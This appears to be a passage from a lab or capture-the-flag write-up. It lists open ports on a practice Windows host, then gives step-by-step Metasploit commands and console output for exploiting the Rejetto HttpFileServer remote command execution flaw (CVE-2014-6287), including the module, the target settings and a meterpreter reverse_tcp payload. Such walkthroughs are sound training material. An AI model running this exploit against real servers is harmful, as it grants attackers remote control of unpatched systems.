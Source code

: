 Open ports:
- 80
- 135
- 139
- 445
- 3389
- 8080

Looks like there are two web servers at port 80 and port 8080

### Metasploit

Based on the questions, looks like we're going to use metasploit to use that CVE and get an initial foothold:
<ol style="list-style:number">
<li>Run <code>msfconsole</code></li>
<li>Search for the module <code>search cve-2014-6287</code>
<pre>
msf6 > search cve-2014-6287

Matching Modules
================

   #  Name     Disclosure Date  Rank  Check  Description
   -  ----     ---------------  ----  -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11  excellent  Yes    Rejetto HttpFileServer Remote Command Execution
</pre></li>
<li>We'll use the only module that pops up <code>use 0</code></li>
<li>Use the <code>info</code> command to see what parameters are required. Looks like our main ones are RHOSTS and RPORT, so we'll set those</li>
<li><code>set RHOSTS 10.10.225.45</code></li>
<li><code>set RPORT 8080</code></li>
<li> <code>run</code>

Hopefully we get the results:

<pre>
msf5 > search cve-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.225.45
RHOSTS => 10.10.225.45
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > run
